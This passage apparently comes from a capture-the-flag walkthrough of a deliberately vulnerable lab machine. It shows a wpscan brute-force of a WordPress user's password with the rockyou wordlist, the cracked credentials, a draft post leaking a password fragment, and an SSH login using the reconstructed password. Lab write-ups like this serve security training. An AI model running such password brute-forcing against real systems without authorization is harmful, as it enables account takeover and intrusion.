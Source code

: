 I spent a *long* time trying to figure out what the last clue meant regarding a Queen song. Finally I decided to just run another brute-force attack on the blog using wpscan. I already knew the users for the blog from earlier enumeration, so I just focused on getting tom's password:

```
# wpscan --url http://172.16.146.141/prehistoricforest --wordlist /usr/share/wordlists/rockyou.txt --username tom
.
.
.
[+] Starting the password brute forcer
  [+] [SUCCESS] Login : tom Password : tomtom1                                                                                                                                                       

  Brute Forcing 'tom' Time: 00:03:25 <                                                                                                                     > (24680 / 14344393)  0.17%  ETA: 33:10:51
  +----+-------+------+----------+
  | Id | Login | Name | Password |
  +----+-------+------+----------+
  |    | tom   |      | tomtom1  |
  +----+-------+------+----------+

[+] Finished: Tue Sep  6 19:39:33 2016
[+] Requests Done: 24727
[+] Memory used: 29.785 MB
[+] Elapsed time: 00:03:29
```

Having obtained the password, I logged into the blog as tom, and found his draft message:

```
Ok so Nick always yells at me for forgetting the second part of my "ess ess eight (ache? H?) password so I'm writing it here:

1938!!

Nick, if you're reading this, I DON'T CARE IF I"M USING THIS THING AS A PASSWORD VAULT. YOU TOOK AWAY MY STICKIES SO I"LL PUT MY PASSWORDS ANY DANG PLACE I WANT.
```

So it seemed the SSH password for tom was fatguyinalittlecoat1938!! Fingers crossed:


```
# ssh bigtommysenior@172.16.146.141
bigtommysenior@172.16.146.141's password: 
Welcome to Ubuntu 16.04 LTS (GNU/Linux 4.4.0-31-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

143 packages can be updated.
0 updates are security updates.


Last login: Thu Jul 14 13:45:57 2016
bigtommysenior@CallahanAutoSrv01:~$ 
```
